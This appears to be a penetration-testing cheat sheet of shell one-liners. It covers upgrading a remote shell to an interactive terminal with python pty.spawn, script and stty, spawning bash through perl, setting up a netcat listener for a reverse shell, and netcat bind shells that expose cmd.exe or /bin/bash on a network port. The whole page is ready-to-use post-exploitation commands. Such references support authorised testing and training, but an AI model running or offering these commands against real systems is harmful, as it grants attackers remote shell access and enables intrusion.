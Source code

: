 # Shells

--------------------------------------------------------------------

```
$ /bin/bash -i

$ python -c 'import pty; pty.spawn("/bin/bash")'
```

--------------------------------------------------------------------

## BASH

```
$ /bin/bash -i

$ /bin/sh -i

$ SHELL=/bin/bash script -q /dev/null
```

--------------------------------------------------------------------

## Setup environment variables

```
$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

$ export TERM=xterm

$ export SHELL=/bin/bash

$ export TERM=screen
```

--------------------------------------------------------------------

```
> Background (CTRL+Z) the current remote shell

stty raw -echo && fg


> Reinitialize the terminal with reset

reset
```

--------------------------------------------------------------------

## PERL

```
$ perl -h

$ perl -e 'exec "/bin/bash";'
```

--------------------------------------------------------------------

## Setup a 'nc' listener and wait for the Bash Reverse Shell

```
$ nc -nvlp <PORT>
```

--------------------------------------------------------------------

## netcat:

```
$ ls -la /usr/share/windows-binaries/

$ nc -nv 0.0.0.0 1234

$ nc -lnvp 1234
```

--------------------------------------------------------------------


## Bind Shells:

```
$ nc.exe -nlvp 1234 -e cmd.exe
$ nc -nv 0.0.0.0 1234

$ nc -nlvp 1234 -c /bin/bash
$ nc -nv 0.0.0.0 1234
```

--------------------------------------------------------------------

